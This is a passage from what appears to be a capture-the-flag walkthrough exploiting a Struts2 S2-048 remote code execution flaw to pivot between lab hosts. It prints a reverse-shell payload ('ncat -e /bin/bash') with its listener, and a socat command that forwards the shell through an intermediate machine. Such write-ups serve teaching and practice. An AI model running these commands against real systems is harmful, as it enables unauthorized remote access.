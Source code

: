I first looked around to see if I could find anything in there but I didn't. So I searched for the exploit related to `Struts2` and found an RCE.

![](images/mute/exploit.png)

In the end of the exploit we'll find 2 comments:

```
# $ ncat -v -l -p 4444 &

# $ python exploit_S2-048.py http://127.0.0.1:8080/2.3.15.1-showcase/integration/saveGangster.action "ncat -e /bin/bash 127.0.0.1 4444"
```

1st line is for setting up the listener and 2nd shows how to run exploit. But in our case we'll need something more, we need another socat port forwarding.

__WHY?__

Because we need reverse shell from `neuromancer` to `our machine` but `starylight` is the middle man. So we'll need to forward everything to us.

To do this run the following command on `straylight`

```bash
socat TCP-LISTEN:1337,fork,reuseaddr TCP:192.168.56.1:1337 &
```

This is for our reverse shell.

